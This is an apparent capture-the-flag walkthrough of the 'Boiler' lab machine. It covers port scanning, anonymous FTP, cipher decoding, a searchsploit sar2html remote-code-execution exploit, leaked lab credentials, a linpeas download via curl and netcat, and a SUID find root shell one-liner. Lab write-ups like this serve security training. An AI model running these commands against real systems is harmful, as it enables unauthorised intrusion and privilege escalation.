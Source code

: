 # Boiler CTF

--------------------------------------------------------------------

## GIVEN INFO

**IP Address**: 10.10.95.133

--------------------------------------------------------------------

## PROCEDURE

```
nmap -sV -sC -p- 10.10.95.133
```

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.4.18),<br>
    10000 (http MiniServ 1.930 Webmin httpd),<br>
    55007 (ssh OpenSSH 7.2p2)

ftp has anonymous login enabled

```
ftp anonymous@10.10.95.133
ls -la
get .info.txt -
```

Possible substituion cipher<br>
**TEXT**: Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!


Cracked Affine Cipher at https://ciphertools.co.uk/decode.php<br>
**MESSAGE**: Just wanted to see if you find it. Lol. Remember: Enumeration is the key!

Try accessing http server at http://10.10.95.133:10000

Need to add new host to /etc/hosts
```
10.10.95.133 ip-10-10-236-122.eu-west-1.compute.internal
```

webmin login page found

Webserver on port 80 is default apache page

```
dirb http://10.10.95.133 /usr/share/wordlists/dirb/common.txt 
```

Found robots.txt, joomla, manual

In robots.txt:
```
/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```

Found cipher in http://http://10.10.95.133/joomla/_database:<br>
Lwuv oguukpi ctqwpf.<br>
Same cipher as before: Just messing around.


Found hash in http://http://10.10.95.133/joomla/_files:<br>
VjJodmNITnBaU0JrWVdsemVRbz0K<br>
Double base64 encoded string: Whopsie daisy

http://10.10.95.133/joomla/administrator/ is the admin login page

Found sar2html in http://10.10.95.133/joomla/_test/

This code will allow us to execute code on remote machine
```
searchsploit sar2html
searchsploit -m php/webapps/49344.py
python 49344.py
cat log.txt
```

Found ssh login<br>
**USER**: basterd
**PASS**:superduperp@$$

```
ssh -p55007 basterd@10.10.95.133
```

Found another login in backup.sh<br>
**USER**: stoner
**PASS**: superduperp@$$no1knows

**user.txt**: You made it till here, well done.

```
sudo -l

User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
```

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas
nc -lnvp 4444 > linpeas
nc -v 10.10.95.133 < linpeas
chmod +x linpeas
./linpeas
```

We can exploit the /usr/bin/find which is owned by root<br>
Has sticky bit set: -r-sr-xr-x
```
/usr/bin/find . -exec /bin/sh -p \; -quit
```

**root.txt**: It wasn't that hard, was it?
